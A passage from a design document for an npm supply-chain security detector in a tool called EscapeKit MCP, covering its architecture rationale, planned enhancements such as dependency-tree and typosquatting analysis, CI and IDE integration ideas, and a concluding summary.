- Mitigation: NPMRegistry is well-tested and stable

### Decision 6: Separate Detector Classes

**Rationale**: Following the existing pattern of specialized detectors (ImportDetector, MockApiDetector, WebGLDetector) maintains architectural consistency. Separation of concerns makes the code testable and maintainable.

**Trade-offs**:
- Pro: Testable, maintainable, consistent with codebase
- Con: More classes to manage
- Mitigation: Clear interfaces and dependency injection


## Future Enhancements

### Phase 2 Enhancements (Post-MVP)

1. **Advanced Pattern Detection**
   - Machine learning-based anomaly detection
   - Behavioral analysis of script execution
   - Integration with threat intelligence feeds

2. **Dependency Tree Analysis**
   - Analyze transitive dependencies (not just direct)
   - Detect dependency confusion attacks
   - Identify typosquatting attempts

3. **Automated Remediation**
   - Suggest alternative packages
   - Generate safe wrapper scripts
   - Auto-fix common issues

4. **User Configuration**
   - Custom pattern definitions
   - Adjustable scoring weights
   - Project-specific whitelists

5. **Enhanced Reporting**
   - Security dashboard
   - Trend analysis over time
   - Export to SARIF format

6. **Performance Improvements**
   - Incremental analysis (only changed dependencies)
   - Background analysis with caching
   - Streaming results for large projects

### Integration Opportunities

1. **CI/CD Integration**
   - GitHub Actions workflow
   - Pre-commit hooks
   - Build pipeline gates

2. **IDE Integration**
   - Real-time security warnings
   - Inline suggestions
   - Quick fixes

3. **Package Registry Integration**
   - Query npm audit API
   - Check against known vulnerability databases
   - Integrate with Snyk/Dependabot

## Conclusion

This design provides a comprehensive, implementation-ready specification for supply chain security analysis in EscapeKit MCP. The PostInstallDetector integrates seamlessly with existing infrastructure while maintaining backward compatibility through opt-in behavior.

Key design strengths:
- Regex-based pattern detection balances simplicity and effectiveness
- Weighted risk scoring provides nuanced threat assessment
- Graceful error handling ensures reliability
- Property-based testing ensures correctness across all inputs
- Extensible architecture supports future enhancements

The implementation follows EscapeKit's established patterns and leverages existing services (NPMRegistry, CodeAnalyzer) for consistency and code reuse.
